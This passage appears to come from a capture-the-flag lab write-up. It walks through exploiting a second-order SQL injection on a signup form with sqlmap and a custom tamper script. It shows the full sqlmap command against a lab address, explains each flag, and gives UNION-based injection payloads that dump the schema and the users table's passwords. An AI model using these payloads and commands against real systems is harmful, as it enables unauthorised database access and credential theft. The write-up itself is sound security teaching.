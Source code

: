 ```
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload

```

The folder where the tamper script is located will also need an empty __init__.py  file for sqlmap to be able to load it. Before starting sqlmap with the tamper script, change the address and password variable inside the script. With this done, it is possible to exploit the vulnerability with the following command:

sqlmap --tamper so-tamper.py --url http://10.10.1.134:5000/challenge4/signup  --data "username=admin&password=asd" 
```
--second-url http://10.10.1.134:5000/challenge4/notes  -p username --dbms sqlite --technique=U --no-cast

# --tamper so-tamper.py - The tamper script
# --url - The URL of the injection point, which is /signup in this case
# --data - The POST data from the registraion form to /signup. 
#   Password must be the same as the password in the tamper script
# --second-url http://10.10.1.134:5000/challenge4/notes - Visit this URL to check for results
# -p username - The parameter to inject to
# --dbms sqlite - To speed things up
# --technique=U - The technique to use. [U]nion-based
# --no-cast - Turn off payload casting mechanism

```

Dumping the users table might be hard without turning off the payload casting mechanism with the --no-cast parameter. An example of the difference between casting and no casting can be seen here:

```
-- With casting enabled:
admin' union all select min(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master 
where tbl_name=cast(x'7573657273' as text)-- daqo'
-- 7573657273 is 'users' in ascii

-- Without casting:
admin' union all select cast(x'717a6a7871' as text)||id||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null 
from users-- ypfr'

```

When sqlmap asks, answer no to follow 302 redirects, then answer yes to continue further testing if it detects some WAF/IPS. Answer no when asked if you want to merge cookies in future requests, and say no to reduce the number of requests. As seen in the image below, sqlmap was able to find the vulnerability, which allows us to automate the exploitation of it.

![image](https://user-images.githubusercontent.com/89842187/133154538-62bd8b7b-2d6d-41cd-a9ff-4d70edf9916b.png)
